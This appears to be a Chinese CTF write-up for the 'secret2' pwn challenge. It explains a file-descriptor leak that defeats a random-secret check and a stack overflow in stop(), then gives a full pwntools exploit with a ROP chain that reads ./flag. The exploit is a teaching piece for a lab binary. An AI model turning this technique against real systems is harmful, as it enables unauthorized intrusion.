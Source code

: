 # Secret2

### 0x1 分析

看一下安全保护：

```shell
[*] './secret2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

没有CANARY，而且地址固定。

`main()`

```c
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  char ll; // [rsp+10h] [rbp-120h]
  char rand; // [rsp+18h] [rbp-118h]
  char name; // [rsp+20h] [rbp-110h]
  int count; // [rsp+128h] [rbp-8h]
  int i; // [rsp+12Ch] [rbp-4h]

  count = 0;
  my_init();
  self(&name);
  for ( i = 0; i <= 9999; ++i )
  {
    my_write("#           Secret: _____            #", 20);
    get_rand(&rand);
    get_long(&secret);
    if ( !memcmp(&rand, &secret, 8uLL) )
      ++count;
    else
      puts("#================no==================#");
    if ( count > 233 )
    {
      close(0);
      stop(&name);
    }
    puts("#====================================#");
    printf("#  GOOD JOB %4d TIMES TO GAME OVER  #\n", (unsigned int)(233 - count));
    puts("#====================================#");
  }
  puts("Good job 2333-tryto-cat/flag");
  system("/bin//sh");
  exit(0);
}
```

首先会输入名字，然后循环`9999`次来输入`secret`，并通过`get_rand()`取得一个随机数和`secret`比较，如果相同，计数器加一。如果计数器达到`233`，就会关闭`stdin`，然后进入`stop`函数。**如果`9999`次都没有使计数器达到`233`，就会执行`system("/bin//sh");`，但是远程环境这个调用失败了。**

先看一下`get_rand()`

```c
ssize_t __fastcall get_rand(void *rand)
{
  int v1; // eax

  memset(rand, 0, 8uLL);
  v1 = open("/dev/urandom", 0);
  return read(v1, rand, 8uLL);
}
```

这里打开了`/dev/urandom`，但是却没有关闭，这个程序就会循环打开这个文件，而且每次都不关闭。

这里补充一点，就是可以使用 `ulimit -a` 查看用户使用最大文件限制数，一般非`root`用户默认是`1024`:

```shell
➜  secret2 ulimit -a
-t: cpu time (seconds)              unlimited
-f: file size (blocks)              unlimited
-d: data seg size (kbytes)          unlimited
-s: stack size (kbytes)             8192
-c: core file size (blocks)         0
-m: resident set size (kbytes)      unlimited
-u: processes                       7779
-n: file descriptors                1024					<-----here
-l: locked-in-memory size (kbytes)  16384
-v: address space (kbytes)          unlimited
-x: file locks                      unlimited
-i: pending signals                 7779
-q: bytes in POSIX msg queues       819200
-e: max nice                        0
-r: max rt priority                 0
-N 15:                              unlimited
```

如果文件打开数目达到上限，就会在下一次 `open(“/dev/urandom”, 0);` 就会失败，导致 `read(v1, rand, 8uLL);` 读了空数据，我们只需要输入 `\0` 即可通过 `memcmp` 的验证。

然后使计数器就会达到`233`，进入`stop()`，

```c
int __fastcall stop(const void *name)
{
  char s[8]; // [rsp+14h] [rbp-Ch]
  int v3; // [rsp+1Ch] [rbp-4h]

  strcpy(s, "Good Night~");
  memcpy((char *)&v3 + 3, name, 0x100uLL);
  puts("#====================================#");
  puts("#             GAME OVER              #");
  puts("#====================================#");
  my_write("#        BYE BYE~                    #", 18);
  puts(s);
  return puts("@====================================@");
}
```

这里有一个栈溢出可以利用。通过在`name`中写入ROP链，来达到获取`flag`的目的。

但是注意一点，这个时候`stdin`已经关闭，我们不能输入东西了。所以我们不能通过`system('/bin/sh')`来拿`shell`。

可以构造`open("./flag", 0); read(0, addr, 0x100); puts(addr)`来得到`flag`。

**补充：因为 `close(0)`， `open(“./flag”, 0)` 返回的 `fd` 将为 `0`。**

#### 关键步骤调试

断点断在`stop()`的`memcpy()`处，准备栈溢出：

<img src="截屏2020-05-24上午2.29.36.png" alt="截屏2020-05-24上午2.29.36" style="zoom:50%;" />

单步执行后：栈空间被修改。

<img src="截屏2020-05-24上午2.32.19.png" alt="截屏2020-05-24上午2.32.19" style="zoom:50%;" />

### 0x2 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *
 
context.terminal = ['tmux', 'splitw', '-h']
context(arch = 'amd64' , os = 'linux', log_level='debug')

p = process('./secret2')
elf = ELF('./secret2')
# p = remote('183.129.189.60', 10052)
pop_rdi_ret = 0x000000000040161b
pop_rsi_r15_ret = 0x0000000000401619
flag = 0x00000000004021df

def debug(p, cmd):
  gdb.attach(p, cmd)

def name(payload):
  p.sendafter("What's your name?", payload)

def passwd():
  p.sendafter('Secret:', '\0')

# gdb.attach(p, '\n')
# pause()

# payload = 'a' * 9
# payload += p64(pop_rdi_ret) + p64(flag) + p64(pop_rsi_r15_ret) + p64(0) + p64(0) + p64(elf.plt['open'])
# payload += p64(0x40160E)+ p64(0) + p64(0) + p64(1) + p64(elf.got['read']) + p64(elf.bss() + 0x500) + p64(0) + p64(0)
# payload += p64(0x4015F8)
# payload += '\x00' * 0x38
# payload += p64(pop_rdi_ret) + p64(elf.bss()  + 0x500) + p64(elf.plt['puts'])

payload = "a" * 0x9
payload += flat([pop_rdi_ret, 0x4021DF, pop_rsi_r15_ret, 0, 0, elf.plt['open']])
payload += flat([0x40160E, 0, 0, 1, elf.got['read'], 0, elf.bss() + 0x500, 0x100])
payload += flat([0x4015F8, 0, 0, 0, 0, 0, 0, 0])
payload += flat([pop_rdi_ret, elf.bss() + 0x500, elf.plt['puts']])


name(payload)
try:
  for i in range(9999):
    passwd()
  p.interactive()

except:
  p.interactive()
  p.close()
```

### 0x3 Reference

[Play with file descriptor(Ⅲ)](http://m4x.fun/post/play-with-file-descriptor-3/)